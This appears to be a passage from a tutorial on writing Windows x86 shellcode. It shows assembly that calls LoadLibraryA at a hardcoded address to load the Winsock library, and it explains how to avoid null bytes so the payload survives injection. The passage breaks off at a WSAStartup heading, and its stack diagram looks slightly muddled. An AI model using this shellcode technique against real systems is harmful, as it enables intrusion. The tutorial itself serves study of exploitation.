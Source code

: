 ## System call: LoadLibraryA

Documentation: <a href="https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya">https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya</a>

Syntax:
```nasm
LoadLibraryA(_In_ LPCTSTR lpFileName)
```

This system call loads a DLL file into the memory. It takes one argument, which is the name of the file.

```nasm
xor eax, eax        ; Clear eax
mov ax, 0x3233      ; Store string "32" in AX (explanation below)
push eax            ; Push string "32\0\0" on stack
push 0x5f327377     ; Push string "ws2_" on stack
push esp            ; Push addr of "ws2_32\0\0" on stack, which will be the lpFileName argument
mov eax, 0x7c801d7b ; Address to LoadLibraryA()
call eax
```

A trick was used here to insert null bytes to terminate the "ws2_32" string, without actually writing a null byte.
The `mov ax, 0x3233` operation stores the string "32" in the lowest 16 bits of EAX (AX). The highest 16 bits are filled with 0x00 (due to the previous `xor eax, eax` operation). This will nicely terminate the string without us needing to hardcode a null byte in the code. If we would have done the following instead, which is more rational, it would have broken the shellcode:

Assembly:
```nasm
push 0x00003233 ; "32\0\0"
push 0x5f327377 ; "ws2_"
```

Notice the nulls in pure hex bytes:
```text
6833320000687773325F
```

This LoadLibraryA() system call is very straight forward. The stack looks like the following before `call eax`, where a pointer to the filename string is on the top of the stack, as the first and only argument:

```perl
   Addr        Value
   00000001    00000002 -----------------
-> 00000002    00003233 (ASCII 32\0)    |
|  00000003    5f327377 (ASCII ws2_)    |
|                                       |
-----------------------------------------
```

## System call: WSAStartup
